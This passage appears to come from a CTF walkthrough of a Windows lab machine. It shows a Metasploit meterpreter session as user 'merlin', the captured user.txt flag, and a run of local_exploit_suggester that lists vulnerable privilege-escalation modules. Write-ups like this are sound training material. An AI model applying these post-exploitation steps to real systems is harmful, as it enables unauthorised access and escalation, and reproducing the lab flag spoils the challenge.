 Then, move to the opened session.<br>
We can see that we had a user "merlin".
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: BOUNTY\merlin
{% endhighlight %}

user.txt is in the directory "C:\Users\merlin\Desktop".<br>
{% highlight shell %}
meterpreter > ls
Listing: C:\users\merlin\desktop
================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-05-30 00:22:39 +0300  desktop.ini
100666/rw-rw-rw-  32    fil   2018-05-30 23:32:40 +0300  user.txt

meterpreter > cat user.txt
e29ad89891462e0b09741e3082f44a2f
{% endhighlight %}

### 3. Getting Root

Since we already have meterpreter shell, we can use a built-in script "local_exploit_suggester".<br>
At first, background current meterpreter shell.
{% highlight shell %}
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/script/web_delivery) >
{% endhighlight %}

Then, run the script to achieve possible vulnerability for getting higher privilege.
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > use post/multi/recon/local_exploit_suggester 

msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1

msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 11 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Post module execution completed
{% endhighlight %}
